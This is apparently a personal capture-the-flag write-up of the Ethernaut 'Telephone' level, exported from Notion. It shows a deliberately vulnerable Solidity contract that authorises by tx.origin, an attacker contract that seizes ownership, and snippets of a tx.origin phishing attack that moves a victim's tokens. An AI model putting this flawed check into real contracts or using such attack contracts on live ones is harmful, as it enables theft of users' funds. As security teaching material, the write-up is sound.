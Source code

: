 ```yaml
---
title: "Telephone"
date: "2024-02-11T14:32:00.000Z"
lastmod: "2024-02-12T09:30:00.000Z"
draft: false
type: "docs"
Difficulty: "⭐"
Date: "2024-02-10"
next: "fal1out-adc1e96866bc443c8f73279d9d54ddcc"
State: "Terminé"
NOTION_METADATA:
  object: "page"
  id: "b59b329c-b218-4d11-8a98-135159a4b7e3"
  created_time: "2024-02-11T14:32:00.000Z"
  last_edited_time: "2024-02-12T09:30:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg"
  parent:
    type: "database_id"
    database_id: "8eb542ce-cd0a-4616-90c5-674614439ec0"
  archived: false
  properties:
    type:
      id: "AcKd"
      type: "select"
      select:
        id: "YEpZ"
        name: "docs"
        color: "default"
    Difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    Date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    next:
      id: "%5Eru%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "fal1out-adc1e96866bc443c8f73279d9d54ddcc"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "fal1out-adc1e96866bc443c8f73279d9d54ddcc"
          href: null
    prev:
      id: "a%5Dip"
      type: "rich_text"
      rich_text: []
    State:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    URL:
      id: "juZs"
      type: "url"
      url: null
    Name:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Telephone"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone"
          href: null
  url: "https://www.notion.so/Telephone-b59b329cb2184d118a98135159a4b7e3"
  public_url: null
UPDATE_TIME: "2024-02-12T09:31:14.833Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


Claim ownership of the contract below to complete this level.


Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```


This is one is pretty straight forward, here is the attacker contract we can deploy:


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CoinFlipAttack {

   Telephone telephone;

  constructor(address target) {
    telephone = Telephone(target);
  }

  function attack() public {
    telephone.changeOwner(msg.sender);
  }
}
```


While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).


An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```text
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```text
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
